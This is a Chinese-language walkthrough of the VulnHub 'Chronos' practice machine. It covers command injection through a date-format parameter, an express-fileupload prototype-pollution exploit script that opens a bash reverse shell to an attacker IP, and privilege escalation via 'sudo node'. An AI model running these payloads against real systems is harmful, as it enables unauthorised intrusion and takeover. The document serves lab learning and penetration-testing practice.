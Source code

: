 ```yaml
---
title: VulnHub靶场 Chronos
description: VulnHub靶场 Chronos WP
pubDate: 10 20 2024
image: https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-5.webp
categories:
  - 网络安全
tags:
  - 靶场
  - 渗透测试
---
```


进行二层发现

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-1.webp)

发现目标主机为 `192.168.135.105`，进行端口扫描

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-2.webp)

发现目标主机上开放 80 端口，访问目标端口 HTTP 服务

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-6.webp)

没啥东西，尝试目录扫描，也没出货。查看源码

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-4.webp)

这里存在一段 JS，不过有一些混淆。不过这里有一个明文的 URL

```url
http://chronos.local:8000/date?format=4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL
```

这里端口是 8000 端口，而且我们在进行端口扫描的时候，也发现了目标主机上开放了 8000 端口。而这个域名 `chronos.local`，可能就是靶机。我们可以添加个 hosts 试试。然后再刷新页面

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-5.webp)

页面发生了变化，我们直接访问 `http://chronos.local:8000`。不过在 windows 上经过测试，需要添加 UA 头，值为 `Chronos`。再次访问，得到如下结果

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-7.webp)

没啥东西了，重点应该就是这个 `4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL`，尝试解一下

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-8.webp)

那么他是怎么输出的呢？

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-9.webp)

结果和我们页面返回的一样。那么我们猜测后端其实就是执行了一个 date 命令，那么利用管道符就可以执行目标命令

```
date +Today is %A, %B %d, %Y %H:%M:%S.' || ls
```

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-10.webp)

重放进行尝试

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-11.webp)

得到 ls 命令结果，命令执行成功。使用 nc 进行反弹，失败，使用 MSF，成功

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-12.webp)

一番找，在 `/opt/chronos-v2/backend` 下发现个 `package.json`

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-13.webp)

```json
{
  "name": "some-website",
  "version": "1.0.0",
  "description": "",
  "main": "server.js",
  "scripts": {
    "start": "node server.js"
  },
  "author": "",
  "license": "ISC",
  "dependencies": {
    "ejs": "^3.1.5",
    "express": "^4.17.1",
    "express-fileupload": "^1.1.7-alpha.3"
  }
}
```

这里有一些 `chronos-v2` 引用的库，这里有个 `express-fileupload`，该库存在 JS 原型污染，并且在服务端，必要条件 `parseNested` 为 True 也存在

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-14.webp)

exp 如下

```python
import requests

cmd = 'bash -c "bash -i &> /dev/tcp/192.168.135.192/8888 0>&1"'

# pollute
requests.post(
    'http://127.0.0.1:8080',
    files={
        '__proto__.outputFunctionName':
        (None,
         f"x;console.log(1);process.mainModule.require('child_process').exec('{cmd}');x"
         )
    })

# execute command
requests.get('http://127.0.0.1:8080')
```

注意，由于是 `server.js` 下存在这个漏洞，它的监听端口是 `127.0.0.1:8080`，所以不要搞错 IP 端口。

把文件传到 `/tmp` 下，运行，即可得到反弹 shell

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-15.webp)
但是不是 root 权限，我们使用 `sudo -l` 查看

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-16.webp)

可以看到，`/usr/local/bin/node` 有 root 权限。使用 node 进行提权

```shell
sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
```

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-17.webp)

然后再传 MSF 马，得到 root 权限

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-18.webp)
